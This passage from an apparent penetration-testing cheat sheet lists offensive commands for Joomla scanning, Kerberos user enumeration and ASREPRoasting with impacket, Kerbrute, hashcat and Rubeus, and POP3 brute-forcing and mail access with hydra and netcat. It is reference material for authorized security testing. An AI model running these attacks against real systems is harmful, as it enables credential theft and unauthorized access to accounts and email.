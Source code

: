 

### 4.5.10. Joomla

```sh
joomscan --ec -u $VICTIM_IP # if joomla found
```



## 4.6. 88/749 Kerberos

```sh
# username enumeration with Kerbrute
./kerbrute userenum --dc DC_IP -d DOMAINNAME userlist.txt

# dump all LDAP users
impacket-GetADUsers -all -no-pass -dc-ip DC_IP DOMAIN.tld/
impacket-GetADUsers -all -dc-ip DC_IP DOMAIN.tld/user:password

# ASREPRoasting - Kerberos attack that allows password hashes to be retrieved
# for users that do not require pre-authentication (user has “Do not use
# Kerberos pre-authentication” enabled).
# Find ASREPRoastable users and password hashes (slash after domain required)
impacket-GetNPUsers -dc-ip DC_IP -usersfile found-users.txt DOMAIN.tld/
# be sure to crack the hashes to retrieve the passwords
hashcat -m 18200 /path/to/hashfile.txt /usr/share/wordlists/rockyou.txt --force

# alternate method (done locally on windows box):
# uses: https://github.com/GhostPack/Rubeus
Rubeus.exe asreproast /format:john /outfile:hash.txt

# List smb shares using username you just cracked the hash of
smbclient -L DC_IP -W DOMAIN.tld -U asreproasted-username
```

## 4.7. 110,995 - POP

Post Office Protocol (POP) retrieves email from a remote mail server.

```sh
# banner grabbing
nc -nvC $VICTIM_IP 110
openssl s_client -connect $VICTIM_IP:995 -crlf -quiet

# basic scan
nmap -n -v -p110 -sV --script="pop3-* and safe" -oA nmap/pop3 $VICTIM_IP

# Bruteforcing
hydra -V -f -l USERNAME -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt $VICTIM_IP pop3
hydra -V -f -S -l USERNAME -P /path/to/passwords.txt -s 995 $VICTIM_IP pop3

# user enum / log in
nc -nvC $VICTIM_IP 110  # "-C" for \r\n line endings, required
telnet $VICTIM_IP 110   # alternate method
USER username
PASS password
LIST # gets list of emails and sizes
RETR 1 # retrieve first email
# try real (root) and fake users to see if there is a difference in error msgs
```
